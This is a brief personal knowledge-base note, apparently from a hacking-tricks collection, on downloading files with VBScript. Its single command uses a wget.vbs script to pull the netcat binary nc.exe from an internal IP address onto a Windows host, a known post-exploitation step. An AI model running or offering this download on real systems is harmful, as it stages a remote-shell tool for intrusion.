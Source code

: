 # VBScript Download Files

```
cscript wget.vbs http://192.168.0.1/nc.exe nc.exe
```

# Related

- [20221003151230](/zet/20221003151230/README.md) VBScript
- ~/kb/hacking/tricks/vbscript-wget-hack.md

Tags:

    #hacking #trick #vbscript 
